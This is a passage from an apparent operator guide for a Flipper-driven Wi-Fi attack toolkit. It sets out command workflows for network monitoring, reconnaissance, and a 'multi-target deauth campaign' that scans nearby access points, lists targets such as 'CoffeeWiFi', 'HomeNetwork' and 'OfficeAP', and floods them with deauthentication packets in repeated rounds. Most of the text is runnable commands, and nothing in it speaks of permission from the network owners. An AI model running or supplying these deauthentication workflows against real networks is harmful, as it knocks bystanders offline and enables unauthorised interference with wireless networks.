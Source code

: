 **Via Flipper:**

```
# Start monitoring from Flipper
bh script run network_monitor

# Let it run...

# Later, SSH to review
ssh root@192.168.178.122
cat /root/monitor/alerts_*.log
```

---

### Workflow 4: Multi-Target Deauth Campaign

**Goal:** Attack multiple networks systematically

**Via SSH:**

```bash
# Step 1: Scan for targets
./04-deauth-campaign.sh scan wlan0

# Step 2: Create target file from results
cat > /root/targets.txt << EOF
AA:BB:CC:DD:EE:FF,6,CoffeeWiFi
11:22:33:44:55:66,11,HomeNetwork
AA:11:BB:22:CC:33,1,OfficeAP
EOF

# Step 3: Launch multi-target campaign
# 15 seconds between rounds, 30 packets each
./04-deauth-campaign.sh multi /root/targets.txt wlan0 15 30

# Step 4: Let run, then stop with Ctrl+C

# Step 5: Review statistics
cat /root/deauth-campaign/stats_*.csv
cat /root/deauth-campaign/report_*.txt
```

---

### Workflow 5: Quick Field Assessment

**Goal:** Fast recon and deauth test from Flipper

**Via Flipper (No SSH Needed):**

```
# 1. Quick recon
bh script run wifi_recon
# (30 seconds)

# 2. Later: SSH to check results
ssh root@192.168.178.122
cat /root/recon/recon_*.csv
# Pick target: AA:BB:CC:DD:EE:FF,6,CoffeeWiFi

# 3. Set target
cat > /root/target.conf << EOF
BSSID=AA:BB:CC:DD:EE:FF
CHANNEL=6
ESSID=CoffeeWiFi
EOF
exit
```